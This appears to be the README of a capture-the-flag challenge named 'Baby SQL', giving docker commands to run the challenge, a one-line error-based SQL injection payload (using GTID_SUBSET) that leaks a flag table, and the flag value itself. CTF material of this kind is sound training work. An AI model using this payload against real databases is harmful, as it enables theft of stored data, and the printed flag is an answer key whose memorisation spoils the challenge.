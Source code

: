 # Baby SQL

## RUN
```bash
docker build -t babysql2 .
docker tag babysql2 ccr.ccs.tencentyun.com/360ctf/babysql2
docker run -it --rm -p 5000:5000 --name babysql2 babysql2
```


## PoC

```http
rand='-GTID_SUBSET(TRIM((select flag from flag)),1)-'
```

flag{281c824468eb40e6cbae1000d6b5f1e3}